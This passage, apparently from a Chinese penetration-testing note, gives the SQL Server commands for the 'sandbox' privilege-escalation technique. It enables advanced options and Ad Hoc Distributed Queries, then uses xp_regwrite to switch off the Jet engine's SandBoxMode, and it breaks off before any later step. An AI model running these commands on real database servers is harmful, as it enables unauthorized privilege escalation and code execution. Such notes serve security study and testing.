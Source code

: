 依次执行下列sql语句：

提权语句

```sql
exec sp_configure 'show advanced options',1;reconfigure;
```

![沙盒提权语句](./MsSQL/沙盒提权语句.png)

不开启的话在执行xp_regwrite会提示让我们开启。

```sql
exec sp_configure 'Ad Hoc Distributed Queries',1;reconfigure;
```

![xp_regwrite执行开启](./MsSQL/xp_regwrite执行开启.png)

关闭沙盒模式，如果第一次执行全部代码有问题，先执行上面两句代码。

```sql
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;
```
